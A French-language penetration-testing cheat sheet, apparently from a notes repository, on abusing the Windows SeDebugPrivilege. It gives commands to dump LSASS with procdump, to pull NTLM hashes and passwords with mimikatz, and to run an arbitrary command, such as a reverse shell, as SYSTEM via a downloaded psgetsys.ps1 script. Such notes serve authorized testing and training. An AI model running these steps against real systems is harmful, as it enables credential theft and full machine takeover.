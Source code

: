 #### Faire un dump du process [Lsass.exe](../../../Ressources/Windows/Lsass.exe.md) via procdump (dans le cas d'une connexion RDP il est aussi possible d'effectuer le dump du process depuis le gestionnaire des tâches)

```powershell
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

#### On lance ensuite mimiktaz afin de récupérer les hashs NTLM présents dans le dump de [Lsass.exe](../../../Ressources/Windows/Lsass.exe.md)

```powershell
mimikatz.exe
log
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```

---
## SeDebugPrivilege : RCE en tant qu'utilisateur SYSTEM

#### On récupère le PID d'un process lancé avec l'utilisateur SYSTEM (winlogon.exe est un bon candidat)

```powershell
tasklist
```

Ensuite, on télécharge le script "psgetsys.ps1" et on l'exécute, ce qui permettra de lancer une commande de notre choix en tant qu'utilisateur SYSTEM (un reverse shell, cmd.exe, powershell.exe...): https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1

```powershell
.\psgetsys.ps1; [MyProcess]::CreateProcessFromParent(<system_pid>,<command_to_execute>,"")
```

